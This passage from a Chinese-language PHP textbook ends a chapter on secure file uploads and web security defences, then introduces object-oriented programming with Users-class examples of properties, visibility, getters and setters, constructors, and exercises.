return;

}

// 检查文件扩展名

$allowedExtensions = array('jpg', 'jpeg', 'png', 'pdf');

if (!in_array($fileExtension, $allowedExtensions)) {

echo "错误：不允许的文件扩展名。";

return;

}

// 将上传的文件移动到目标目录

if (move_uploaded_file($_FILES["file"]["tmp_name"], $filePath)) {

echo "文件上传成功。";

} else {

echo "上传文件时出错。";

}

} else {

echo "错误：" . $_FILES["file"]["error"];

}

?>

<!DOCTYPE html>

<html lang="fr">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>安全文件上传</title>

</head>

<body>

<h2>安全文件上传</h2>

<form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post" enctype="multipart/form-data">

<label for="file">选择文件：</label>

<input type="file" id="file" name="file" accept="image/jpeg, image/png, application/pdf">

<button type="submit">上传</button>

</form>

</body>

</html>

这段 PHP 代码确保了向服务器上传文件时的安全性。以下是其详细工作原理：

1. 代码首先使用 `$_SERVER["REQUEST_METHOD"] == "POST"` 检查表单是否已提交，以确保仅在提交表单时才进行处理。

1. 接着，它使用 `$_FILES["file"]["error"] == UPLOAD_ERR_OK` 检查文件上传过程中是否发生了问题。这确保了在进行进一步检查之前，文件已成功上传。

1. 它使用预定义目录和上传文件的名称（通过 `basename($_FILES["file"]["name"])` 获取）来确定文件的目标路径。

1. 随后，它使用 `mime_content_type($_FILES["file"]["tmp_name"])` 检查上传文件的 MIME 类型，并将其与允许的 MIME 类型列表（`$allowedMimeTypes`）进行比较。这确保只允许上传指定的文件类型。

请注意，MIME（多用途互联网邮件扩展）类型是一种标准化标识符，用于指定文件中的内容类型。它告诉服务器如何根据文件类型处理文件内容。例如，MIME 类型 "text/html" 表示该文件是 HTML 文档，而 "image/jpeg" 表示它是 JPEG 格式的图像。Web 服务器使用 MIME 类型来确定如何将文件内容提供给 Web 浏览器或其他应用程序。

1. 代码还使用 `pathinfo($filePath, PATHINFO_EXTENSION)` 检查文件扩展名，并将其与允许的扩展名列表（`$allowedExtensions`）进行比较。这增加了一层额外的安全性，确保上传的文件具有正确的扩展名。

1. 如果 MIME 类型和文件扩展名均有效，则使用 `move_uploaded_file()` 将文件移动到目标目录。否则，将显示相应的错误消息，告知用户上传文件时遇到的任何问题。

1. 最后，显示一个 HTML 表单，允许用户选择并上传文件。该表单通过 POST 方法并以 `enctype="multipart/form-data"` 将数据发送到当前的 PHP 脚本（`$_SERVER["PHP_SELF"]`），从而实现文件上传。

该代码通过检查上传文件的 MIME 类型和扩展名，确保了文件上传时的安全性增强，从而大大降低了恶意或危险文件被上传到服务器的风险。

#### 结论

本章关于 PHP 安全性的内容强调了保护 Web 应用程序免受各种恶意威胁和攻击的至关重要性。我们深入探讨了安全性的各个方面，首先从 SQL 注入攻击入手，这代表了对 Web 应用程序最常见且潜在破坏性最大的威胁之一。通过了解攻击者如何利用安全漏洞操纵 SQL 查询并破坏数据库数据，开发人员可以实施预防措施，例如使用预处理语句和绑定参数来防范这些攻击。

我们还研究了跨站脚本攻击（XSS），这是另一种主要威胁，允许攻击者将恶意 JavaScript 代码注入网页，从而危及最终用户的安全。通过使用特殊字符转义和用户输入验证等技术，开发人员可以降低 XSS 被利用的风险，保护用户免受攻击。

跨站请求伪造（CSRF）也进行了讨论，重点介绍了利用用户信任执行未经授权操作的伪造请求的潜在危险。通过使用反 CSRF 令牌和验证服务端请求，开发人员可以降低这种风险，并保证用户操作的完整性。

最后，我们研究了与文件下载相关的风险，强调了攻击者可利用的潜在漏洞，以在服务器上执行恶意代码。通过对允许的文件类型施加严格限制、检查 MIME 签名以及限制下载权限，开发人员可以降低这些漏洞被利用的风险，保护系统完整性。

总之，PHP 安全性是现代 Web 开发的一个基本方面。通过了解各种威胁并在整个开发过程中实施强有力的安全实践，开发人员可以创建安全可靠的 Web 应用程序，保护用户的敏感数据并保证安全可靠的用户体验。

### 第 E 部分

### PHP 面向对象编程

面向对象编程（OOP）是一种基于对象的创建和操作的基本编程范式。在 PHP 中，OOP 提供了一种强大的手段来构建和组织代码，实现更高的可重用性、模块化，以及对数据和功能的更高效管理。

过程式编程与面向对象编程（OOP）的区别在于它们对代码构建的根本不同方法。在过程式编程中，程序围绕函数构建，数据通常是直接可访问和可操作的。而在面向对象编程中，代码围绕称为对象的实体进行组织。这些对象封装了数据（称为属性）和作用于这些数据的功能（称为方法）。

重要的是要注意，OOP 本身并非一种新的编程语言，而是一种广泛用于现代应用程序开发的编程范式。这种方法为设计和管理代码提供了更有组织的结构，将其划分为具有特定特征和行为的可重用对象。

至于 PHP，这种流行且灵活的编程语言提供了对 OOP 的原生支持。这使得开发人员能够利用 OOP 概念创建更健壮和可扩展的应用程序。

简而言之，OOP 提供了一种组织代码的替代且高效的方式，其中一切皆被视为对象。每个对象都拥有用于存储数据的属性和用于对该数据执行操作的方法。这种方法促进了代码的可重用性、模块化和可维护性，使其成为许多软件开发项目的吸引人之选。

在本部分中，我们将详细探讨 PHP 中 OOP 的基本原则以及良好的开发实践。以下是我们将涵盖主题的概览：


#### 第 1 章：类和对象

本章通过介绍类和对象的概念，奠定了 PHP 中面向对象编程（OOP）的基础。读者将学习如何定义类、创建对象实例以及访问其属性和方法。

#### 第 2 章：封装与数据建模

本章探讨 PHP 中的封装概念，并展示如何使用类来对数据进行建模。

#### 第 3 章：PHP 中的继承

本章探讨 PHP 中的继承，允许你创建类层级结构以复用和扩展代码。

#### 第 4 章：接口与抽象类

本章介绍 PHP 中的接口和抽象类。你将学习如何使用接口定义契约，以及如何创建抽象类来定义多个类通用的方法。

#### 第 5 章：异常处理

本章涵盖 PHP 中的异常处理，使你能够在应用程序中清晰高效地处理错误和异常情况。

#### 第 6 章：命名空间

本章探讨 PHP 中的命名空间，为你提供一种逻辑构建代码并防止命名冲突的方式。

#### 第 7 章：Traits（特征）

本章介绍 PHP 中的 Traits，使你能够在不使用多重继承的情况下，在多个类之间复用代码。

#### 第 8 章：魔术方法

本章探讨 PHP 的魔术方法，这些是在 PHP 中非常有用的特殊方法。

本节深入探讨了 PHP 中的面向对象编程，为开发人员提供了设计和开发健壮、可扩展且易于维护的 PHP 应用程序所需的知识和技能。

### 第 14 章：类和对象

在 PHP 面向对象编程的世界里，类和对象是基本元素，它们使代码能够被高效地构建和组织。类可以被视为创建对象的模型或蓝图，而对象则是类的具体实例，拥有自己的数据（属性）和行为（方法）。

本章将带我们深入 PHP 中类和对象的迷人世界。我们将学习如何定义和创建类、实例化对象、访问其属性和方法，以及管理类成员的可见性。我们还将通过类和对象探讨封装、抽象和代码复用的关键原则。

本章将为你提供掌握类和对象基本概念并有效应用于 PHP 开发项目所需的工具。准备好踏上一段深入 PHP 面向对象编程核心的精彩旅程吧！

#### 定义和创建类

类是 PHP 面向对象编程的基础。类是一种定义对象形式的数据结构。它封装了与特定类型对象相关的数据（属性）和行为（方法）。这里有一个简单的类比来理解面向对象编程中的类是什么：

把类想象成建造汽车的蓝图或模型。在这个模型中，你指定了所有将要建造的汽车共有的特征，例如车门数量、车轮数量、品牌、颜色等。该模型还定义了与汽车相关的方法（如启动、加速、刹车）。

一旦定义了这个类，你就可以创建它的具体实例，就像根据蓝图建造的单个房子一样。`Car` 类的每个实例都是一辆具体的汽车，拥有品牌、型号和颜色等属性的自己的值。


简而言之，类是定义特定类型对象的结构和行为的模型或蓝图，而实例是该类的具体副本，拥有类中定义的属性的自己的值。

##### 类定义

在 PHP 中，使用 `class` 关键字声明类，后跟类名及其包含在大括号中的属性和方法。

类名必须以字母或下划线（`_`）开头，后跟字母、数字或下划线。

命名约定建议使用 `PascalCase` 表示法来命名类，这意味着类名中的每个单词都以大写字母开头，没有空格或特殊字符。特别是，类名的第一个字母要大写。

以下是定义类的一般语法：


为了更好地理解这些概念，让我们在服务器上创建一个名为 `phppoo` 的目录。如果你在本地使用 XAMPP，可以在 `htdocs` 文件夹中创建此目录。在此目录中，我们将放置本节涵盖的所有概念的说明性示例。

##### 类属性

类 **属性** 是在类内部声明的变量。

它们定义了与类的每个实例相关的特征或数据。

命名约定通常建议使用 `camelCase` 表示法来命名属性，这意味着第一个单词以小写字母开头，后续单词以大写字母开头。

示例：

```
class MyClass {

 public $myProperty;

 private $otherProperty;

}
```

这段代码在 PHP 中定义了一个名为 `MyClass` 的类。在类内部，我们声明了两个属性：`$myProperty` 和 `$otherProperty`。`$myProperty` 属性被声明为 public（公共），意味着可以从类外部访问它。另一方面，`$otherProperty` 属性被声明为 private（私有），意味着它只能在类内部访问，无法从外部访问。私有属性用于封装数据，并通过限制直接访问来保证其完整性。

##### 类方法

类方法是在类内部声明的函数。

它们定义了与类的每个实例相关的动作或行为。

命名约定通常建议使用 `camelCase` 表示法来命名方法，方式与属性相同。

**示例**：

```
class MaClasse {

 public function myMethod() {

 // 方法体...

 }

 private function otherMethod() {

 // 方法体...

 }

}
```

这段代码在 PHP 中定义了一个名为 `MaClasse` 的类。在类内部，我们定义了两个方法：`myMethod()` 和 `otherMethod()`。`myMethod()` 方法被声明为 public（公共），意味着可以从类外部调用它。另一方面，`otherMethod()` 方法被声明为 private（私有），意味着它只能从类内部调用，且无法从外部访问。私有方法用于封装类的内部逻辑，不打算从类外部直接调用。这使得保护和限制对某些类功能的访问成为可能。

在面向对象编程中，术语“方法”用于指代与类关联的函数，而术语“函数”通常保留给独立的代码块。因此，当我们讨论面向对象编程时，我们用“方法”来描述对象的特定动作或行为，相对于用于更通用、与类无关上下文的“函数”。

##### 实战示例：创建一个类

在主 `phppoo` 目录中，创建两个新文件，分别命名为 `index.php` 和 `Users.php`（确保首字母大写）。然后，在后一个文件中，定义一个名为 `Users` 的类，同样首字母大写以匹配文件名。

```
<?php

 class Users {

 public $name;

 public $firstname;

 public $age;

 public $email;

 public function logIn() {

 echo "I'm a member, so I can connect";

 }

 public function logOut() {

 echo "I can log out";

 }

 }

?>
```

这段代码定义了一个名为 `Users` 的类，表示具有名称、名字、年龄和电子邮件等多个属性的用户。该类还有两个公共方法：`logIn()` 和 `logOut()`。


##### “logIn()”方法显示一条消息，表明成员可以登录，而“logOut()”方法显示一条消息，表明用户可以注销。这些方法为管理用户登录和注销提供了特定功能。

##### 对象实例化

一旦定义了类，我们就可以使用 `new` 关键字创建该类的对象（实例）。


在 `index.php` 文件中添加以下代码：

例如：

```php
<?php
require_once "Users.php";
$user1 = new Users();
```

这段 PHP 代码首先通过 `require_once` 引入包含 `Users` 类定义的文件 `Users.php`。接着，它使用关键字 `new` 创建 `Users` 类的一个新实例，并将该实例赋值给变量 `$user1`。换句话说，它创建了一个“Users”类型的新对象，现在可以访问“Users”类中定义的属性和方法。

##### 对象的写访问

对象的写访问意味着我们可以修改（或赋值）对象属性的值。这允许我们更新存储在对象属性中的数据。

在 `Users` 类的上下文中，我们可以按如下方式对 `$user1` 对象的属性进行写访问：

```php
$user1->name = "Dupont";
$user1->firstname = "Eric";
$user1->age = 30;
$user1->email = "dupont-eric@gmail.com";
```

这段代码需集成到已实例化 `$user1` 对象（来自 `Users` 类）的 `index.php` 文件中，用于给 `Users` 类的 `$user1` 对象的属性赋值。更具体地说：

*   `$user1->name = "Dupont";` 将值 "Dupont" 赋给 `$user1` 对象的 "name" 属性。
*   `$user1->firstname = "Eric";` 将值 "Eric" 赋给 `$user1` 对象的 "firstname" 属性。
*   `$user1->age = 30;` 将值 30 赋给 `$user1` 对象的 "age" 属性。
*   `$user1->email = "dupont-eric@gmail.com";` 将值 "dupont-eric@gmail.com" 赋给 `$user1` 对象的 "email" 属性。

通过赋予这些值，我们初始化了由 `$user1` 对象所代表用户的数据。

##### 对象的读访问

对 `$user1` 对象的读访问意味着我们可以检索其属性值，但不能直接修改它们。这意味着我们可以使用存储在对象属性中的值，但不能直接向这些属性写入新值。

在 `Users` 类的上下文中，如果我们想访问上述实例化的 `$user1` 对象的读属性，可以按如下方式进行：

```php
// 向 index.php 添加的代码
// 对 $user1 对象属性的读访问
echo "Name: " . $user1->name . "<br>";
echo "First name: " . $user1->firstname . "<br>";
echo "Age: " . $user1->age . "<br>";
echo "Email: " . $user1->email . "<br>";
```

这使我们能够显示 `$user1` 对象的属性值。请注意用于调用属性的小箭头 (`->`)。

如果您当前正在运行 `index.php` 文件，显示的结果将类似于以下内容：


##### 方法访问

方法通过类的对象进行访问。一旦从类创建了对象，您就可以使用箭头符号 (`->`) 调用类的方法。

例如，在已实例化 `$user1` 对象的 `index.php` 文件中，我们可以在该对象上调用 `logIn()` 方法。

```php
$user1->logIn();
```

这将执行 `logIn()` 方法内部的代码。


##### 对象私有属性的读访问

对象私有属性的访问是面向对象编程（OOP）中的一个重要概念。让我们按如下方式修改 `Users` 类：

```php
<?php
class Users {
    private $name = "Dupont";
    private $firstname = "Karine";
    private $age = 27;
    private $email = "dupont-karine@gmail.com";
}
```

在 `Users` 类的这个示例中，我们使用 `private` 关键字定义了四个**私有**属性：`$name`、`$firstname`、`$age` 和 `$email`。

`$name`、`$firstname`、`$age` 和 `$email` 属性的初始值分别为 "Dupont"、"Karine"、27 和 "dupont-karine@gmail.com"。这些值在声明属性时赋予。

现在让我们更新 `index.php` 文件，尝试从 `Users` 类外部访问 `$name`、`$firstname`、`$age` 和 `$email` 属性。以下是 `index.php` 当前的内容：

```php
<?php
require_once "Users.php";
$user1 = new Users();
// 对 $user1 对象属性的读访问
echo "Name : " . $user1->name . "<br>";
echo "First name : " . $user1->firstname . "<br>";
echo "Age : " . $user1->age . "<br>";
echo "Email : " . $user1->email . "<br>";
```

如果您运行 `index.php`，将会得到以下错误：


该错误表明我们试图从 `Users` 类外部访问私有属性 (`$name`)，这是不允许的。私有属性只能在声明它们的类内部访问。当我们尝试从另一个上下文（如 `index.php` 文件）访问它们时，PHP 会生成一个致命错误。那么，如何从定义私有属性的类外部访问这些属性呢？

解决方案在于在类内部创建公共方法，以允许访问这些私有属性。然后，在类外部，可以使用这些公共方法来访问对象的私有属性。这些方法充当中介，提供了一种受控且安全的方式来访问和操作私有属性，同时保持类的封装性。

让我们按如下方式修改 `Users` 类：

```php
<?php
class Users {
    private $name = "Dupont";
    private $firstname = "Karine";
    private $age = 27;
    private $email = "dupont-karine@gmail.com";

    public function getInfosUser() {
        echo "Name: $this->name <br>";
        echo "Firstname: $this->firstname <br>";
        echo "Age: $this->age <br>";
        echo "Email additionress: $this->email";
    }
}
```

在 `Users` 类的这个版本中，我们添加了一个名为 `getInfosUser()` 的公共方法来显示用户信息。该方法定义在 `Users` 类内部。它使用 `echo` 语句显示当前对象（由 `$this` 表示）的姓、名、年龄和电子邮件地址属性的值。请注意，`$this` 变量是 PHP 中一个非常重要的关键字，指代当前正在使用的对象。

在 `getInfosUser()` 方法内部，通过语法 `$this->name`、`$this->firstname`、`$this->age` 和 `$this->email` 访问私有属性的值。`->` 运算符用于访问当前对象的属性。

使用 `getInfosUser()` 方法，您可以从 `Users` 类的实例中检索并显示用户信息。例如，在 `index.php` 中，我们有一个名为 `$user1` 的 `Users` 类实例。您可以在该实例上调用 `getInfosUser()` 方法以显示该用户的详细信息。

```php
<?php
require_once "Users.php";
$user1 = new Users();
// 调用 getInfosuser() 方法
$user1->getInfosUser();
```

在这段代码中，引入 `Users.php` 文件并使用 `new` 运算符实例化该类的新对象、将该实例存储在 `$user1` 变量后，在 `$user1` 对象上调用了 `getInfosUser()` 方法。

执行这段代码的结果将显示用户信息，如姓、名、年龄和电子邮件地址，因为 `getInfosUser()` 方法负责显示这些信息。结果将类似于以下内容：


简而言之，重要的是要理解，从定义私有属性的类外部访问这些属性，是通过在同一个类中也定义的公共方法来实现的。

##### 对象私有属性的读访问（续）

让我们以 `Users` 类为例，声明私有属性 name、firstname、age 和 email 但不进行初始化。


<?php

class Users {

    private $name;

    private $firstname;

    private $age;

    private $email;

}

如果你现在尝试从类外部直接初始化这些属性，例如从 `index.php` 文件，使用以下代码：

```php
<?php

require_once "Users.php";

$user1 = new Users();

$user1->name = "Dupont";

$user1->firstname = "Claire";

$user1->age = 32;

$user1->email = "dupond-claire@gmail.com";
```

执行此代码时，将生成一个致命错误，提示不允许从类外部访问私有属性。要解决此错误并允许从类外部对私有属性进行写访问，我们需要在类中提供公共方法，以允许修改这些属性。

在 `Users` 类中，我们创建一个名为 `initialize()` 的新公共方法，例如：

```php
public function initialize($lastName, $firstName, $age, $email) {

    $this->name = $lastName;

    $this->firstname = $firstName;

    $this->age = $age;

    $this->email = $email;

}
```

在这段代码中，我们创建了一个公共方法，该方法接收用户的姓氏、名字、年龄和电子邮件作为参数，然后将它们赋值给当前对象（`$this`）的相应属性。因此，该方法根据作为参数提供的值初始化对象的私有属性值。我们现在可以使用此方法来访问私有属性 name、firstname、age 和 email。让我们在 `index.php` 文件中调用此方法：

```php
require_once "Users.php";

$user1 = new Users();

$user1->initialize("Salim", "Zakaria", 32, "salim@gmail.com");
```

代码执行不会产生错误。要检索由 `initialize()` 方法初始化的姓氏、名字、年龄和电子邮件属性的值，我们也调用 `getInfosUser()` 方法：

```php
require_once "Users.php";

$user1 = new Users();

$user1->initialize("Salim", "Zakaria", 32, "salim@gmail.com");

$user1->getInfosUser();
```

执行此代码将产生以下结果：


简而言之，私有属性通过充当接口的公共方法来访问，以操作封装在类对象中的数据。这保持了封装性并控制了对私有数据的访问，从而保证了系统的安全性和一致性。

#### 结论

在本章中，我们深入探讨了面向对象编程的基本概念：类和对象。我们学习了如何定义类、从这些类创建对象，以及操作封装在对象内部的数据。

我们还学习了属性和方法的不同类型。这些概念使我们能够创建复杂的数据结构和模块化、可扩展的软件系统。

通过理解面向对象编程的原则，我们能更好地设计健壮、可维护和可扩展的应用程序。通过有效利用类和对象，我们可以以更合乎逻辑和直观的方式组织代码，从而促进项目的开发和维护。

总之，类和对象是 PHP 面向对象编程的基本要素，对于任何希望创建现代、高性能应用程序的 PHP 开发人员来说，掌握它们至关重要。通过继续探索和实践这些概念，我们将成为更称职、更高效的 PHP 开发人员。

#### 练习

##### 练习 24

编写一个表示城市的类。它应具有名称、省份、大区和人口数量等属性，以及一个显示“城市 X 位于大区 Z 的省份 Y，拥有 N 名居民”的方法。

创建城市对象，分配其属性，并使用显示方法。

#### 练习 25

创建一个 `Person` 类，包含以下属性：姓名、名字、年龄。该类应有一个 `presentation()` 方法，用于显示包含该人信息的字符串。

然后，创建两个具有不同信息的 `Person` 对象并调用 `presentation` 方法。

### 第 15 章

### 数据封装与建模

在本章中，我们将探讨 PHP 面向对象编程（OOP）中封装的基本概念，以及它在数据建模和管理中的作用。封装是 OOP 的支柱之一，它由将数据（属性等）和作用于该数据的方法组合在一个称为类的单一实体中组成。这种方法通过控制访问和操作来保证数据的完整性和安全性。

我们还将继续研究属性和方法的不同可见性级别，如 `public`、`private` 和 `protected`，以及它们对封装的影响。通过理解这些可见性级别，你将能够设计结构良好且安全的类，同时促进代码复用和应用程序维护。

最后，我们将通过封装来研究数据建模，实现模型类以高效地表示信息系统中的实体和关系。你将学习如何使用 getter 和 setter 来控制对属性的访问，保证数据一致性并简化对象管理。

通过将封装与其他 OOP 概念（如继承和多态）相结合，我们将在后续章节中进一步开发这些概念，你将能够创建健壮、灵活的 Web 架构，以满足现代 IT 项目不断变化的需求。

#### 封装：保护数据和方法

在 PHP 面向对象编程中，封装是指将数据（属性等）和用于操作它们的动作组合在一个类中。

封装对于限制从类外部访问属性非常重要。为了确定谁可以访问我们类的各种属性、方法和常量，我们使用访问限制器，也称为可见性级别，由关键字 `public`、`private` 和 `protected` 表示。

##### 封装原则

封装涉及类属性和方法的可见性及可访问性。

创建新类时，确定哪些属性和方法必须可以从类外部访问至关重要。

正如我们在上一章所见，使用 `public` 关键字定义的属性、方法或常量可在任何地方访问，无论是在类内部还是外部。使用 `private` 关键字定义的属性、方法或常量只能在定义它们的类内部访问。

在即将到来的继承章节中，我们将发现使用 `protected` 关键字定义的属性、方法或常量可在定义它们的类内部访问，也可在继承自此类的子类中或在父类本身中访问。

按照惯例，属性声明为 `private`，因为直接访问类属性是有风险的。要访问这些属性，我们使用公共方法。

在大多数情况下，我们使用 `public` 关键字定义方法，使用 `protected` 或 `private` 关键字定义属性。但应注意，这一原则并非绝对，可能会根据每个应用程序的具体需求而有所不同。

#### 定义和使用 getter 与 setter 方法

在本节中，我们将探讨面向对象编程中的一个基本概念：getter 和 setter。这些方法也称为访问器和修改器，用于访问对象的属性（getter）并以受控方式修改这些属性（setter）。

Getter 用于检索对象属性的值，而 setter 用于设置或修改这些值。

我们将研究如何在 PHP 类中定义这些方法，以及它们的实际用途，以封装数据、控制访问并保证应用程序内的数据一致性。

让我们回到 `Users` 类，看看如何定义和使用 getter 和 setter 方法：

```php
<?php

class Users {

    private $name;

    private $age;

    // 属性 $name 的 Getter

    public function getName() {

        return $this->name;

    }

    // 属性 $name 的 Setter
```


public function setName($newName) {

    $this->name = $newName;

}

// $age 属性的 Getter

public function getAge() {

    return $this->age;

}

// $age 属性的 Setter

public function setAge($newAge) {

    $this->age = $newAge;

}

}

这段 PHP 代码定义了一个包含两个私有属性的 `Users` 类：`$name` 和 `$age`。随后声明了四个方法：

**`getName()`：** 这是 `$name` 属性的 getter。它用于获取 `$name` 属性的值。

**`setName($newName)`：** 这是 `$name` 属性的 setter。它用于为 `$name` 属性设置新值。

**`getAge()`：** 这是 `$age` 属性的 getter。它用于获取 `$age` 属性的值。

**`setAge($newAge)`：** 这是 `$age` 属性的 setter。它用于为 `$age` 属性定义新值。

Getter 用于从类外部访问私有属性值，而 setter 用于以受控方式修改这些值。通过这种方式，类通过允许对属性进行受控访问来保证数据封装。

为了演示 `Users` 类的 getter 和 setter 方法的用法，让我们将以下代码集成到 `index.php` 文件中：

```php
<?php

require_once "Users.php";

// 实例化 User 对象

$user1 = new Users();

// 使用 getter 和 setter 方法

$user1->setName("Alice");

$user1->setAge(25);

echo "User name: " . $user1->getName() . "<br>";

echo "User age: " . $user1->getAge();
```

这段 PHP 代码演示了 `Users` 类的 getter 和 setter 方法的用法。首先，使用 `require_once` 引入 `Users` 类。接着，以 `$user1` 为名实例化一个新的 User 对象。分别使用 `setName()` 和 `setAge()` 方法设置用户的姓名和年龄。最后，使用 `getName()` 和 `getAge()` 方法检索并显示用户的姓名和年龄。当你运行 `index.php` 文件时，将获得类似以下的结果：


##### 使用 getter 和 setter 的优势

在面向对象编程中使用 getter 和 setter 有几个优势：

**封装性：** getter 和 setter 用于控制对对象属性的访问。通过将属性定义为私有或受保护，并提供公共方法来访问和修改它们，我们能保证对数据操作有更大的控制权，从而促进封装。

**数据验证：** Setter 可以包含检查和验证，以确保分配给属性的数据是有效的。例如，你可以检查某个值是否在特定范围内、是否符合特定格式等。

**灵活性：** 通过使用 getter 和 setter，你可以轻松修改类内部处理数据的方式，而无需修改使用该类的客户端代码。这使得对象管理具有更大的模块化和灵活性。

**代码复用：** getter 和 setter 通过将数据操作逻辑封装在类内部，促进了代码复用。这减少了代码重复并增强了代码的可维护性。

设想一下，在 `Users` 类中，我们想要确保分配给用户的年龄是一个正整数。下面是一个使用 getter 和 setter 进行数据验证的示例：

```php
<?php

class Users {

    private $age;

    // 带验证的 $age 属性 Setter

    public function setAge($newAge) {

        // 检查年龄是否为正整数

        if (is_int($newAge) && $newAge >= 0) {

            $this->age = $newAge;

        } else {

            // 年龄无效时，显示错误消息

            echo "Age must be a positive integer ";

        }

    }

    // $age 属性的 Getter

    public function getAge() {

        return $this->age;

    }

}
```

在这段代码中，公共 `setAge()` 方法是一个带验证的 setter，用于设置年龄值。它接受一个参数 `$newAge`，首先使用 `is_int()` 函数并检查 `$newAge` 是否大于或等于零，以此判断它是否为正整数。如果是，则将该值赋给当前对象的 `$age` 属性。否则，显示一条错误消息，指明年龄必须为正整数。

公共 `getAge()` 方法是一个用于获取年龄值的 getter。它只是简单地返回当前对象 `$age` 属性的值。

使用这种模式可确保年龄值始终有效，从而避免数据错误。示例如下：

```php
<?php

require_once "Users.php";

// 实例化 Users 对象

$user1 = new Users();

// 使用 setter 设置年龄

$user1->setAge(30); // 有效，因为 30 是正整数

// 使用 getter 获取年龄

echo "User's age: " . $user1->getAge(); // 将显示 : User's age: 30

echo "<br>";

// 尝试使用 setter 设置无效值

$user1->setAge(-10); // 显示 : Age must be a positive integer.

// 尝试无效值后使用 getter

echo "User's age: " . $user1->getAge(); // 显示 : User age: 30 (年龄未被修改)
```

在这段代码中，我们使用 setter `setAge()` 将用户年龄设置为 30。此操作成功，因为 30 是正整数。

我们使用 `getAge()` getter 获取用户年龄并在屏幕上显示。在这种情况下，将显示 "User age: 30"。

接着，我们再次尝试使用 setter `setAge()`，但这次使用无效值 -10。由于该值无效，setter 显示错误消息 "Age must be a positive integer."。

最后，我们再次使用 `getAge()` getter 显示用户年龄。由于之前尝试使用无效值未能修改年龄，此指令将再次显示 "User age: 30"。

执行此代码时，将获得以下结果：


#### 类构造函数

在 PHP 面向对象编程中，构造函数在对象的创建和初始化中起着至关重要的作用。构造函数是类的一个特殊方法，当该类的新对象被实例化时会自动调用。其主要目的是执行设置对象初始状态所需的初始化任务。

构造函数允许你定义从创建那一刻起对象属性应如何配置，提供了一种便捷的方式，确保对象以一致且有效的状态被创建。换句话说，它提供了一种手段，确保对象所需的数据从一开始就可用且已正确初始化。

在本节中，我们将详细探讨 PHP 构造函数的概念，考察其语法、实际用法以及对数据建模和对象管理的影响。我们将学习如何在类中定义和使用构造函数，以及与其实现相关的最佳实践。通过理解构造函数的角色和重要性，PHP 开发人员将更有能力设计健壮的类和结构良好的面向对象应用程序。

##### 创建类构造函数

下面是一个演示在 `Users` 类中创建和使用构造函数的实际示例：

```php
<?php

class Users {

    private $name;

    private $firstname;

    private $age;

    private $email;

    // Users 类的构造函数

    public function __construct($name, $firstname, $age, $email) {

        $this->name = $name;

        $this->firstname = $firstname;

        $this->age = $age;

        $this->email = $email;

    }

    // 用户姓名的 Getter

    public function getName() {

        return $this->name;

    }

    // 用户名字的 Getter

    public function getFirstname() {

        return $this->firstname;

    }

    // 用户年龄的 Getter

    public function getAge() {

        return $this->age;

    }

    // 用户邮箱地址的 Getter

    public function getEmail() {

        return $this->email;

    }

}
```


这段 PHP 代码定义了一个名为 `Users` 的类。该类包含四个私有属性：`$name`、`$firstname`、`$age` 和 `$email`。它还有一个**构造函数**。构造函数是一种特殊方法，其名称始终为 `__construct()`。当创建一个新的 `Users` 对象时，该方法会被自动调用。其主要作用是在实例化类时，使用提供的值来初始化对象的属性。

以下是构造函数的详细工作原理：

参数：构造函数接受四个参数：`$name`、`$firstname`、`$age` 和 `$email`。这些参数代表对象属性的初始值。

属性初始化：在构造函数内部，使用 `$this->` 运算符将参数值赋给对象对应的属性。例如，`$this->name = $name;` 将 `$name` 参数的值赋给正在构建的对象的 `$name` 属性。

除了**构造函数**，`Users` 类还有四个名为 getter 的公共方法：`getName()`、`getFirstName()`、`getAge()` 和 `getEmail()`。这些方法分别用于获取私有属性 `$name`、`$firstname`、`$age` 和 `$email` 的值。它们用于以受控且安全的方式从类外部访问对象数据。

##### 实例化时的使用

当你使用构造函数创建一个新的 `Users` 对象时，必须提供参数值。例如，如果你编写 `$user1 = new Users("Dupont", "Alice", 30, "dupont.alice@example.com");`，构造函数将使用指定的值被调用，并将这些值赋给 `$user1` 对象的相应属性。在 `index.php` 文件中，插入以下代码：

```php
<?php

require_once "Users.php";

// 使用构造函数实例化 Users 类

$user1 = new Users("Dupont", "Alice", 30, "dupont.alice@example.com");

// 显示用户信息

echo "User name: " . $user1->getName() . "<br>";

echo "User first name : " . $user1->getFirstname() . "<br>";

echo "User's age: " . $user1->getAge() . "<br>";

echo "User email: " . $user1->getEmail();
```

这段代码演示了使用构造函数实例化 `Users` 类的过程。当我们创建一个新的 `Users` 对象时，将姓氏 "Dupont"、名字 "Alice"、年龄 30 和电子邮件 "dupont.alice@example.com" 传递给构造函数。这些值随后被用于初始化 `Users` 对象的相应属性。

接下来，我们使用 getter 来获取用户信息并将其显示在屏幕上。我们分别使用 `getName()`、`getFirstName()`、`getAge()` 和 `getEmail()` 方法获取用户的姓氏、名字、年龄和电子邮件地址，并在浏览器中显示它们。

运行此代码时，你将得到以下结果：


#### 结论

在本章关于面向对象编程中封装与数据建模的内容中，我们探讨了在应用程序中构建和保护数据所涉及的基本概念。我们从封装开始，它包含将数据及相关方法分组在类中，同时定义可见性级别以控制对这些元素的访问。

随后，我们详细研究了 getter 和 setter 方法，它们提供了一种安全且受控的方式来访问和修改类的私有属性。通过使用这些方法，我们了解了如何保证数据完整性，并通过防止直接访问私有属性来加强封装。

我们还考察了使用 getter 和 setter 的优势，特别是在灵活性、可维护性和代码安全性方面。通过使用特定方法访问数据，我们可以轻松实现数据验证和处理逻辑，同时保持封装性并最大程度降低数据损坏的风险。

最后，我们探讨了构造函数在创建对象和初始化其属性方面的关键作用。通过定义合适的构造函数，我们可以确保对象一创建就被正确配置，从而使我们的类使用起来更安全、更一致。

总之，封装和数据建模是面向对象编程中的关键概念，它们支持设计健壮、模块化且易于维护的应用程序。通过理解并应用这些原则，开发人员可以创建更高效、更可靠的软件系统，确保数据在其整个生命周期中的保护与完整性。

#### 练习

#### 练习 26

创建一个 `Person` 类，包含以下属性：

*   `$name`：人的姓名
*   `$age`：人的年龄

`Person` 类必须包含以下方法：

*   `__construct($name, $age)`：一个用于初始化姓名和年龄属性的构造函数
*   `getName()`：一个返回人姓名的方法
*   `getAge()`：一个返回人年龄的方法
*   `setAge($age)`：一个修改人年龄的方法

创建一个 `Person` 类的实例并显示其姓名和年龄。然后，修改该人的年龄并显示新值。

#### 练习 27

创建一个 `Vehicle` 类，包含以下属性：`brand`、`model`、`year`、`price`。这些属性应在构造函数中定义。

该类必须为每个属性提供 getter 和 setter，以及一个 `display()` 方法，该方法以字符串形式显示车辆的信息。

